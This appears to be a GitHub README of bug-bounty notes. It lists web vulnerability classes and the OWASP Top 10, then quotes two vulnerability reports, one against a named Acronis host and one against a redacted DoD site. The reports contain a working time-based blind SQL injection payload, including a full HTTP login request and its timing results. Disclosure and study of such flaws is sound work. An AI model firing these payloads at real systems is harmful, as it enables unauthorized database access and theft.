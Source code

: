 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions
